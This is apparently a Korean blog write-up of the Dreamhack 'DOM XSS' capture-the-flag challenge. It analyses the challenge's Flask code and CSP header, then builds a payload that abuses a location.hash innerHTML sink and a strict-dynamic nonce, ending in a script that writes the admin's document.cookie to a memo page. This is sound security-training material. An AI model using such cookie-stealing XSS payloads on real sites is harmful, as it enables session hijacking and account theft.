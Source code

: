```yaml
---
layout: single
title: "[Dreamhack] DOM XSS write-up"
date: 2024-11-21 21:30 +0900
categories: 
    - WEB-write-up
tag:
typora-root-url: ../
toc: true
toc_sticky: true
toc_label: 목차
author_profile: true
comment: true
sidebar:
    nav: "docs"
---
```


## [Dreamhack] DOM XSS

<br>

### 풀이

문제에 접속하면 다음과 같이 vuln, memo, flag 페이지가 존재한다.  

<img src="/images/2024-11-02-DOM-XSS/image-20241103171753298.png" alt="image-20241103171753298" style="zoom: 67%;" />

<br>

vuln 페이지에 접속해보니 `param` 파라미터에 dreamhack.io에 있는 이미지를 img 태그를 이용해서 이미지를 삽입하고 있다. 그리고 `#` 뒤에는 dreamhack 이라고 되어 있는데 `#` 뒤에 있는 문자열은 서버로 요청이 전송되지 않고 클라이언트에게만 응답된다.

![image-20241103172030550](/images/2024-11-02-DOM-XSS/image-20241103172030550.png)

<br>

`#` 문자 뒤에 있었던 `dreamhack` 문자열을 `<script>alert(1)</script>`로 변경하고 페이지를 새로고침하니 페이지에 url 인코딩 되어 출력된다.

![image-20241103172524942](/images/2024-11-02-DOM-XSS/image-20241103172524942.png)

<br>

memo 페이지에서는 이전에 풀었던 xss 문제들처럼 memo 파라미터에 있는 문자열을 방문할 때마다 하나씩 추가되고 있다.

<img src="/images/2024-11-02-DOM-XSS/image-20241103172722014.png" alt="image-20241103172722014" style="zoom:50%;" />

<br>

flag 페이지에서는 아마도 관리자 권한으로 param 파라미터 값과  `#` 문자 뒤에 페이로드를 삽입할 수 있도록 폼이 존재하고 있다. 

![image-20241103172916927](/images/2024-11-02-DOM-XSS/image-20241103172916927.png)

<br>

이쯤에서 문제 파일의 코드를 한 번 살펴보자.  

`read_url` 함수를 먼저 살펴보면 쿠키에 domain 속성을 추가하여 127.0.0.1 에서만 작동하게 될 수 있도록 하고, 관리자 권한으로 쿠키를 추가하고 인자에 설정된 url에 접속한다. 

```python
def read_url(url, cookie={"name": "name", "value": "value"}):
    cookie.update({"domain": "127.0.0.1"})
    try:
        service = Service(executable_path="/chromedriver")
        options = webdriver.ChromeOptions()
        for _ in [
            "headless",
            "window-size=1920x1080",
            "disable-gpu",
            "no-sandbox",
            "disable-dev-shm-usage",
        ]:
            options.add_argument(_)
        driver = webdriver.Chrome(service=service, options=options)
        driver.implicitly_wait(3)
        driver.set_page_load_timeout(3)
        driver.get("http://127.0.0.1:8000/")
        driver.add_cookie(cookie)
        driver.get(url)
    except Exception as e:
        driver.quit()
        # return str(e)
        return False
    driver.quit()
    return True
```

<br>

바로 아래에 있는 `check_xss` 함수에서는 관리자 권한으로 접속해서 vuln 페이지에 `param` 파라미터 값과 `#` 뒤에 페이로드를 삽입해서 관리자의 쿠키를 탈취해야 한다는 것을 알 수 있다. 

```python
def check_xss(param, name, cookie={"name": "name", "value": "value"}):
    url = f"http://127.0.0.1:8000/vuln?param={urllib.parse.quote(param)}#{name}"
    return read_url(url, cookie)
```

<br>

여기서 `@app.after_request`는 flask에서 매 요청이 처리되고 나서 실행되는 핸들러이다. `add_header` 함수를 살펴보면 전역변수로 nonce를 설정하고, 1바이트는 16진수로 2자리로 표현할 수 있기 때문에 32자리인 것을 알 수 있다. CSP에 대해서는 아래에 대해서 정리했다.

```python
@app.after_request
def add_header(response):
    global nonce
    response.headers['Content-Security-Policy'] = f"default-src 'self'; img-src https://dreamhack.io; style-src 'self' 'unsafe-inline'; script-src 'self' 'nonce-{nonce}' 'strict-dynamic'"
    nonce = os.urandom(16).hex()
    return response
```

<br>

이 CSP 헤더에서 `strict-dynamic` 이라는 옵션을 처음 봤는데 이 옵션이 추가되면 `script` 지시문에서 nonce 값이 일치하는 스크립트면 `self`를 무시할 수 있고, 추가 스크립트를 동적으로 로드할 때 동적으로 로드된 스크립트도 실행된다고 한다.

```text
1. default-src 'self'
- 다른 출처에서 스크립트나 리소스를 가져올 수 없음
2. img-src https://dreamhack.io
- 이미지는 dreamhack.io 출처에서만 로드 가능 
3. style-src 'self' 'unsafe-inline'
-  CSS 스타일 시트는 현재 도메인에서 로드되며, 인라인 스타일도 허용
4. script-src 'self' 'nonce-{nonce}' 'strict-dynamic'
- 스크립트는 현재 도메인에서 로드할 수 있으며, nonce 값을 가진 스크립트 허용,  'strict-dynamic'을 추가하여 script-src에서 정의한 출처('self')보다 nonce나 hash 기반의 신뢰가 우선
```

<br>

나머지 코드에서는 별다르게 볼 건 없고, 문제 사이트 안에서의 코드를 살펴보니 아래와 같은 자바스크립트 코드가 작성되어 있는 것을 볼 수 있다. 해석해보면 id가 name인 요소를 선택해서 `location.hash.slice(1)`를 사용해 # 뒤에 오는 문자열을 가져와 innerHTML로 삽입하는 것을 알 수 있다.

```javascript
<script nonce="">
    window.addEventListener("load", function() {
      var name_elem = document.getElementById("name");
      name_elem.innerHTML = `${location.hash.slice(1)} is my name !`;
    });
 </script>
```

<br>

 `<div id="name">asd</div>#bbb` 를 파라미터 값으로 넘겨주니 div 태그 안에 #뒤에 있는 문자열인 bbb가 bbb is my name으로 삽입되어 있는 것을 알 수 있다. 따라서 이를 script 태그로 작성하고 # 뒤에 있는 문자를 `alert(1)//`로 바꿔주면 뒤에 있는 문자열들이 주석처리 되어 실행될 것이다.

![image-20241121222822419](/images/2024-11-02-DOM-XSS/image-20241121222822419.png)

![image-20241121222837670](/images/2024-11-02-DOM-XSS/image-20241121222837670.png)

<br>

`<script id="name"></script>#alert(1)//` 를 넘겨주니 alert(1)이 잘 실행된 것을 볼 수 있다.

![image-20241121223128764](/images/2024-11-02-DOM-XSS/image-20241121223128764.png)

![image-20241121223136302](/images/2024-11-02-DOM-XSS/image-20241121223136302.png)

<br>

이제 flag 페이지에서 관리자의 쿠키를 이용해 document.cookie를 memo 페이지에 작성하면 된다. memo 페이지에서는 아래처럼 파라미터가 memo로 되어 있으니 location 함수를 이용해 `'/memo?memo='` 까지 적고 뒤에 + document.cookie를 입력해주는데 주석처리까지 해주어야 페이로드가 잘 실행된다.

![image-20241121223610005](/images/2024-11-02-DOM-XSS/image-20241121223610005.png)

![image-20241121223827445](/images/2024-11-02-DOM-XSS/image-20241121223827445.png)

<br>

최종적으로 아래와 같이 페이로드를 입력해주면 memo페이지에 flag가 나온 것을 확인할 수 있다.

```html
<script id="name"></script>          location='/memo?memo='+document.cookie//
```

![스크린샷 2024-11-21 오후 10.41.03](/images/2024-11-02-DOM-XSS/스크린샷 2024-11-21 오후 10.41.03.png)

